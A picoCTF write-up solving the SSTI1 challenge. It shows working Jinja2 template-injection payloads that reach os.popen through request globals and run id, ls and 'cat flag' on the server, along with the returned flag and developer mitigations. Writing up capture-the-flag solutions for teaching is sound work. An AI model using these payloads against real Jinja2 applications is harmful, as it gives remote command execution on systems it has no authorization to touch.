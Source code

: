 >> picoCTF — SSTI1 (Server-Side Template Injection) Writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to open the challenge page and submit the announcement form)  
- Optional: a text editor to prepare payloads before copying into the form

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:

![Step 1](images/1.png)

```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```
![Step 2](images/2.png)

+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```
![Step 3](images/3.png)

+ Then I submitted the form. The page returned and showed:
```bash
49
```

![Step 4](images/4.png)

+ This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![Step 5](images/5.png)

+ After submitting the form, the page reflected:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

![Step 6](images/6.png)

+ This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

Next, I listed files by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![Step 7](images/7.png)

+ The page returned:

```bash
__pycache__
app.py
flag
requirements.txt
```

![Step 8](images/8.png)

+ This confirmed a flag file exists in the application directory.


### 5. Read the flag file

Finally, I retrieved the flag by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![Step 9](images/9.png)

+ The page returned the flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
![Step 10](images/10.png)

## Final Flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using request.application.__globals__.__builtins__.__import__('os') allowed importing os from within the template sandbox (when direct import is unavailable). From there os.popen() executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.
---
## Mitigations (for developers)

+ To prevent SSTI and related RCE risks:

+ Do not render raw user input inside templates. Escape user-supplied content or use safe display functions.

+ Use template engine sandboxing (Jinja2 sandbox, strict environments) and avoid exposing request, application, or __builtins__ to templates.

+ Run application processes with least privilege (do not run as root).

+ Validate and sanitize inputs; treat inputs strictly as data.

+ Apply defense-in-depth: input validation, output encoding, template auto-escaping, and minimal runtime privileges.
